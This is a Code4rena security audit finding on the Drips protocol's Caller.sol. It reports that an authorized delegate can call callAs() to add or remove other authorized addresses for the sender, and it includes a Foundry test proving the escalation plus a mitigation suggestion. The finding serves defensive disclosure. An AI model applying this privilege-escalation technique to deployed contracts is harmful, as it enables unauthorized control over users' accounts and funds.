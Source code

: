 # Original link
https://github.com/code-423n4/2023-01-drips-findings/issues/124
# Lines of code

https://github.com/code-423n4/2023-01-drips/blob/9fd776b50f4be23ca038b1d0426e63a69c7a511d/src/Caller.sol#L106
https://github.com/code-423n4/2023-01-drips/blob/9fd776b50f4be23ca038b1d0426e63a69c7a511d/src/Caller.sol#L114
https://github.com/code-423n4/2023-01-drips/blob/9fd776b50f4be23ca038b1d0426e63a69c7a511d/src/Caller.sol#L144
https://github.com/code-423n4/2023-01-drips/blob/9fd776b50f4be23ca038b1d0426e63a69c7a511d/src/Caller.sol#L202


# Vulnerability details

## Impact

The Caller.sol contract helps to call functions on behalf of other addresses. The sender can [authorize](https://github.com/code-423n4/2023-01-drips/blob/9fd776b50f4be23ca038b1d0426e63a69c7a511d/src/Caller.sol#L106) an address in order to make calls on behalf the sender.

The issue is that the authorized user can authorize/unauthorize other users from the sender using the [callAs() function](https://github.com/code-423n4/2023-01-drips/blob/9fd776b50f4be23ca038b1d0426e63a69c7a511d/src/Caller.sol#L144).

The ```authorized user assigned by the sender can manage the sender authorized users list```. 
The authorize/unauthorize actions should be reserved only by the original sender otherwise the malicious authorized user can manage the list at his convenience.

## Proof of Concept

I created a basic PoC in ```Caller.t.sol```. Test steps:

1. Authorize the address(122) for the sender authorized list.
2. As the address(122) call callAs() function with authorize selector and add address(1337) to the sender authorized user list.
3. The sender allAuthorized() list now have address(122) and address(1337).

```solidity
function testAuthorizeViaCallAs() public {
    // Authorize another address via callAs
    // 1. Authorize the address(122) for the sender.
    // 2. As the address(122) call callAs() function with authorize selector
    // and add address(1337) to the sender authorized user list.
    // 3. The sender allAuthorized() list now have address(122) and address(1337)
    address[] memory allAuthorized;
    //
    // 1. Authorize the address(122) for the sender.
    //
    authorize(sender, address(122));//sender authorize address(122)
    allAuthorized = new address[](1);
    allAuthorized[0] = address(122);
    assertEq(caller.allAuthorized(sender), allAuthorized, "Invalid all authorized");
    //
    // 2. As the address(122) call callAs() function with authorize selector
    // and add address(1337) to the sender authorized user list.
    //
    address anotherAddress = address(1337);
    bytes memory data = abi.encodeWithSelector(caller.authorize.selector, anotherAddress);
    vm.prank(address(122));
    bytes memory returned = caller.callAs{value: 0}(sender, address(caller), data);
    // 3. The sender allAuthorized() list now have address(122) and address(1337)
    allAuthorized = new address[](2);
    allAuthorized[0] = address(122);
    allAuthorized[1] = address(1337);// <-- this new address is authorized by the address(122)
    assertEq(caller.allAuthorized(sender), allAuthorized, "Invalid all authorized");
}
```

## Tools used

Foundry/Vscode

## Recommended Mitigation Steps

Add a restriction to not modify the sender authorized user list by the ```authorized user```. It could be in the ```_callAs()``` function.
